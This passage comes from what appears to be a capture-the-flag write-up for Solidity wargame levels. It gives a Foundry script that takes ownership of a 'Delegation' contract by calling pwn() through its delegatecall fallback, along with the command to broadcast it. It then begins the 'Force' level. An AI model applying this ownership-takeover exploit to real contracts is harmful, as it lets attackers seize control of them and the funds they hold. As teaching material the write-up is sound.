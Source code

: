 `DelegationSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Delegation.sol";


contract DelegationSolve is Script{
    Delegation public delegation = Delegation(0xFb9BeF4E9A8d68C2Bc2c4D2dE5688fbe0e8224F2);
    function run() external{
        vm.startBroadcast();
        console.log("Initial Owner : ", delegation.owner());
        
        address(delegation).call(abi.encodeWithSignature("pwn()"));

        console.log("Final Owner : ", delegation.owner());
        
        vm.stopBroadcast();
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/DelegationSolve.s.sol:DelegationSolve --rpc-url $RPC_URL --broadcast
```

# 7 Force

`Force.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

- Goal

